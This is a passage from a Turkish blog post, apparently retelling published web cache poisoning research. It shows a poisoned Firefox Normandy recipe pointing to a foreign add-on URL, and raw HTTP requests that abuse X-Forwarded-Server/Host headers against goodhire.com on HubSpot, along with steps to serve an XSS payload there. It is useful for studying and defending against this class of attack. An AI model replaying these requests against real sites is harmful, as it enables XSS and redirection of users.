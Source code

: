 Tarif yönergesi yani recipe içeriği de aşağıdaki gibi görünüyormuş:

```bash
[{
  "id": 403,
  "last_updated": "2017-12-15T02:05:13.006390Z",
  "name": "Looking Glass (take 2)",
  "action": "opt-out-study",
  "addonUrl": "https://normandy.amazonaws.com/ext/pug.mrrobotshield1.0.4-signed.xpi",
  "filter_expression": "normandy.country in  ['US', 'CA']\n && normandy.version >= '57.0'\n)",
  "description": "MY REALITY IS JUST DIFFERENT THAN YOURS",
}]
```

Üstelik bu sistem NGINX’in önbellek mekanizmasını kullandığı için bu zararlı yanıtın önbelleğe kaydedilerek diğer tüm Firefox kullanıcılarına sunulması ihtimalini ortaya çıkarmış. Sonuçta Firefox'un on milyonlarca günlük kullanıcısının araştırmacının web sitesinden tarifler alacağı bir zafiyet oluşmuş. 

Tarifler imzalı olduğu için doğrudan kullanıcılara zararlı olabilecek eklentileri kurup çalıştırtmak mümkün olmasa da tüm kullanıcıları istediği adrese yönlendirmenin oluşturabileceği DDoS saldırısı mümkündür. Ayrıca bulunacak olası bir memory corruption zafiyeti ile çok daha tehlikeli zafiyetlerin zincirleme sonucu ortaya çıkması da olasılık dahilinde.

### Yönlendirme Zehirlemesi | **Route poisoning**

Bazı uygulamalar URL oluşturmak için HTTP başlıklarını hatalı şekilde kullanmanın ötesinde, bunları dahili istek yönlendirme için de kullanma hatasına düşebiliyor.

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>GET / HTTP/1.1
Host: www.goodhire.com
<span style="color:DodgerBlue">X-Forwarded-Server: test-degeri</span>
</code></pre></div></div>

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
…
&lt;title&gt;HubSpot - Page not found&lt;/title&gt;
&lt;p&gt;The domain <span style="color:DodgerBlue">test-degeri</span> does not exist <span class="k">in </span>our system.&lt;/p&gt;
</code></pre></div></div>

Alınan çıktından anlaşıldığı üzere [Goodhire.com](http://goodhire.com/) HubSpot'ta barındırılıyor ve HubSpot, `X-Forwarded-Server` başlığına `Host` başlığından daha fazla öncelik veriyor ve bu durum isteğin hangi istemciye yönelik olduğu konusunda kafa karışıklığı yaratıyor.

Bu durumdan yararlanmak için hubspot.com'a gitmemiz, kendimizi bir HubSpot istemcisi olarak kaydetmemiz, HubSpot sayfamıza bir XSS payload eklememiz ve ardından son olarak HubSpot'u goodhire.com'da bu yanıtı sunması için kandırmamız gerekiyor:

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>GET / HTTP/1.1
Host: www.goodhire.com
<span style="color:DodgerBlue">X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com</span>
</code></pre></div></div>

